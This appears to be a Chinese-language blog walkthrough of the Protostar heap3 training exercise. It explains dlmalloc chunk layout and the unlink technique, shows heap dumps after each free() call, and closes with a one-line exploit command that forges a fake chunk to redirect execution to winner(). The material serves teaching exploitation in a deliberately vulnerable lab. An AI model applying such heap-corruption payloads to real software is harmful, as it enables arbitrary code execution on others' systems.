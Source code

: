 ```yaml
---
layout: post
title: Protostar教程之unlink
excerpt: "heap漏洞之unlink"
categories: [Protostar系列教程]
comments: true
---
```


参考地址:https://secinject.wordpress.com/2018/01/18/protostar-heap3/

漏洞代码如下
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
 
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
 
int main(int argc, char **argv)
{
  char *a, *b, *c;
 
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
 
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
 
  free(c);
  free(b);
  free(a);
 
  printf("dynamite failed?\n");
}
```
我们的目标是运行winner function

首先我们看一下分配的堆块与空闲的堆块

![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/Protostar教程之unlink_1.png)

 As a short reminder: dlmalloc keeps free chunks (chunks available for allocation) in a doubly linked list of chunks (right side of Image 1). Each free chunk has fields representing:
简短的提醒:dlmalloc将free chunks(右边的图)使用双向链表串起来,chunk中每个区域都有它的意义:

- Prev_size: 如果前一个chunk的状态是allocated, 那么这个字段代表它(前一个chunk)的大小.
- Size: free chunk的大小
- FD pointer: 存放doubly linked list的指针指向下一个free chunk
- BK pointer: 存放doubly linked list的指针指向上一个free chunk
- Unused space: 如果该chunk被分配,那么这块区域存放数据
- Size: chunk的大小, this field is used for easier merging of chunks.

同样,allocated chunk各个字段的意义:

- Previous size: 如果前一个chunk是allocated,那么这个字段的值为前一个chunk的大小的最后4个字节.如果前一个chunk是free,那么这个字段代表了前一个chunk的大小
- Size: chunk的大小. 最后一个字节表示前一个chunk是否再被使用
- User data: 存放数据
 
如果我们将allocated chunk变为free chunk,User data前8个字节将变为 free chunk的 FD和BK指针,我们之后将利用这一点进行漏洞利用

```
内存中数据的样子          | 
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"a" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"b" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"c" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
TOP CHUNK                 |
--------------------------|
...                       |
--------------------------|
STACK                     |
--------------------------|
c                         |
--------------------------|
b                         |
--------------------------|
a                         |
--------------------------|
```
### 重点：
当我们调用free(c)时候: The program will see that the “c” chunk’s size field is set to 0xfffffffc which represents -4 and because it is an even value, it will think the previous chunk is free. Then, by Image 5, line 4, it will navigate to the previous free chunk by subtracting its prev_size field (0xfffffff8 = -8) from the start of “c” chunk pointer and thus actually adding +8 and moving into the “c” chunk by 8 bytes, arriving at the beginning of the memory allocated by malloc(c). We can then forge an “virtual” chunk inside the chunk “c”‘s “User data” field which will be interpreted as a free chunk and unlinked. This looks like this:
```
内存中数据的样子          | 
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"a" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"b" allocated space [32B] |
--------------------------|
0xfffffff8                |
--------------------------|
0xfffffffc                | 
--------------------------|
cccc                      |
--------------------------|
cccc                      | 
--------------------------|
redir_addr -12            | 
--------------------------|
winner_addr               |
--------------------------|
```
The “CCCCCCCC” bytes represent fake prev_size and size bytes in the fake chunk made inside the “c” chunk “User data” space after which (redir_addr – 12) and winner_addr are located, which represend FD and BK because the fake chunk is considered free.

free前堆中的情况：
```bash
0x804b000:	0x00000000	0x00000029	0x61616161	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x62626262	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x63636363	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```
free(c)
```bash
0x804b000:	0x00000000	0x00000029	0x61616161	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x62626262	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x00000000	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```
free(b)
```bash
0x804b000:	0x00000000	0x00000029	0x61616161	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x0804b050	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x00000000	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```
free(a)
```bash
0x804b000:	0x00000000	0x00000029	0x0804b028	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x0804b050	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x00000000	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```

最终pwn代码：
```
./heap3 `python -c 'print "A"*16 + "\xb8\x64\x88\x04\x08\xff\xe0"'` `python -c 'print "A"*32 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "B"*8 + "\x1c\xb1\x04\x08" + "\x18\xc0\x04\x08"'`
```
